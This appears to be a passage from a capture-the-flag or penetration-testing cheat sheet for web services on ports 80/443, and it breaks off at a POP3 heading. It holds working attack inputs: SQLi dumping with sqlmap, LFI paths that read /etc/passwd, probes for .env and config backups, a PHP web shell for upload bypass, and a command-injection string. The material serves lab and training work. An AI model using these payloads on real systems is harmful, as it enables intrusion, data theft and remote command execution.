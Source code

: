 
## 🌐 Port 80/443 - HTTP/HTTPS
**Service:** Web Server  
**Common vulns:** SQLi, XSS, LFI/RFI, upload bypass

### Enumeration
```bash
# Directory brute force
gobuster dir -u http://$TARGET -w /usr/share/wordlists/dirb/common.txt -x php,txt,html,bak
ffuf -u http://$TARGET/FUZZ -w wordlist.txt

# Vulnerability scanning
nikto -h http://$TARGET
wpscan --url http://$TARGET --enumerate ap,u

# Check for common files
curl http://$TARGET/robots.txt
curl http://$TARGET/.git/config
curl http://$TARGET/.env
curl http://$TARGET/wp-config.php.bak
```

### Exploitation
```bash
# SQL Injection
sqlmap -u "http://$TARGET/login.php?id=1" --dump

# Local File Inclusion
curl http://$TARGET/index.php?page=../../../etc/passwd
curl http://$TARGET/index.php?page=php://filter/convert.base64-encode/resource=index.php

# File upload bypass
# Change extension: .php → .phtml, .php3, .php5
# Add magic bytes: GIF89a<?php system($_GET['cmd']); ?>
# Double extension: shell.php.jpg

# Command injection
curl "http://$TARGET/ping.php?ip=127.0.0.1;id"
```

### CTF Tips
- View source for comments: `<!-- password: admin123 -->`
- Check cookies for base64 encoded data
- Look for `.git`, `.svn`, `.DS_Store` folders

---

## 📮 Port 110/995 - POP3
**Service:** Post Office Protocol  
**Common vulns:** Cleartext auth (110), weak passwords
